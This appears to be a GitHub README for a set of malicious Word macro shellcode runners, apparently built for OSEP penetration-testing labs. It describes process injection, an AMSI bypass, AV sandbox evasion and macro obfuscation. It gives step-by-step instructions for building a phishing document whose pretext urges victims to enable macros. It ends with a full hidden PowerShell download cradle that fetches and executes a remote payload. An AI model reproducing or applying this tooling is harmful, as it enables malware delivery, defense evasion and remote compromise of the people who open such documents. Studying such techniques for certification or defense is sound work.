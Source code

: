 # Macro Shellcode Runners

## ToC

| Application | Notes |
| ----------- | ----- |
| `WordMacroInject.vbs` | Injects shellcode into `explorer.exe` (64-bit Word) or a random 32-bit process, and runs it | 
| `WordMacroRunner.vbs` | Loads shellcode into `WINWORD.exe` and runs it |
| `WordMacroRunnerBasic.vbs` | Basic shellcode runner. `WordMacroRunner.vbs` without AMSI bypass or IP check |
| `WordPsCradle.vbs` | Macro with Caesar Cipher encoding that calls a PS download cradle |
| `vbObfuscate.ps1` | PS script to generate Caesar Cipher code for `WordPsCradle.vbs` |

Both `WordMacroInject.vbs` and `WordMacroRunner.vbs` have:
- Ability to run when executed from both 64-bit & 32-bit Word
- AMSI Check & Bypass
- Simple time-based AV Sandbox detection

### Setup/formatting information:
1. Write "legitimate" contents of the word doc, select all, then navigate to Insert > Quick Parts > AutoTexts and Save Selection to AutoText Gallery
2. Give it a name, make sure it's saved to that particular document and not a template. Hit ok. Then delete the content from the body of the word doc.
3. Copy in/write your pretexting content to the body of the word doc.  This is the piece that include "enable macros, hit this key combo to execute" etc.
4. Go to Macro's and click record new macro.  Ensure on both screens you select the current document and not a template.  Click keyboard and then hit a key combination to map (e.g. Alt + D).  Once you hit ok/close, recording will begin.  Then go click macros again, view, select the main runner sub, and then click run.  This will map that sequence to Alt + D so that when it is entered the runner sub will be executed.

## `WordMacroInject.vbs`
This macro performs process injection from both 32-bit and 64-bit Word processes. In 64-bit processes, it injects into `explorer.exe`, but this is easily configurable with a single variable.

In 32-bit processes, it enumerates running processes and attempts to find another 32-bit process to inject into. These are pretty sparse, but often times processes like `GoogleUpdate.exe`, `OneDrive.exe` are running as 32-bit (at least in the OSEP labs). If it can't find another 32-bit process, it injects into itself (`WINWORD.exe`).

Uses a `sleep` call to determine if being simulated by AV. The shellcode is not obfuscated at all, that is left up to the reader. Much more can be done to obfuscate the entire script but if I did that here it would be hard to even understand the script, which would defeat its educational purpose.

### Notes

If Word (and thus our Macro) is ran in 32-bit mode, we have to find another 32-bit process to inject into because 32 bit processes cannot easily inject into 64 bit ones. The presumed typical target environment will be running 32 bit word on a 64 bit OS, which renders the injection into explorer impossible.

Starting in Word 2019 the program is 64 bit by default. This means Word 2019,O365,2021 are all good candidates for Injection because Orgs/individuals would have to go out of their way to have downloaded the 32 bit one.

There are some more advanced techniques out there that might be able to facilitate 32&rarr;64 bit injection (*Heaven's gate*) but no idea if they could be implemented in VBA.

As always, there are issues concerning stability, and longevity of the process to maintain a reverse shell when we inject into random processes. In reality just using a non-injecting runner and then setting up a C2 to automigrate is probably best practice as they are equipped to do so.

## `WordMacroRunner.vbs`
This is a baseline runner that loads the shellcode into `WINWORD.exe` and executes it. Has capabilities to detect AMSI and patch it if found (for both 32-bit and 64 bit) as well as contains shellcode for both 32-bit and 64 bit Word so it can execute after detecting architecture. 

Uses a `sleep` call to determine if being simulated by AV. Also has functionality to make sure the target is in the `192.168.0.0/16` IP range, except you have to uncomment it.

The shellcode is not obfuscated at all, that is left up to the reader. Much more can be done to obfuscate the entire script but if I did that here it would be hard to even understand the script, which would defeat its educational purpose.

## `WordMacroRunnerBasic.vbs`
This is just a basic version of `WordMacroRunner.vbs` without AMSI Bypass or IP Check.

## `WordPsCradle.vbs`
Macro with Caesar Cipher encoding that calls a PowerShell download cradle.  Use with `vbObfuscate.ps1` to generate and replace obfuscated text in `WordPsCradle.vbs`. This uses WMI dechaining, so **still use x64 shellcode even if you are targeting x86 word**!

## `vbObfuscate.ps1`
Powershell script to generate Caesar Cipher code for `WordPsCradle.vbs`.  Make sure offsets match for encrypt/decrypt. First output is download cradle, last is app name for app name check before running. 

**This is where you would edit the PS Cradle you would like to run**. The default is:
```ps1
powershell -exec bypass -nop -w hidden -c iex(new-object net.webclient).downloadstring('http://192.168.49.66/attach.txt')
```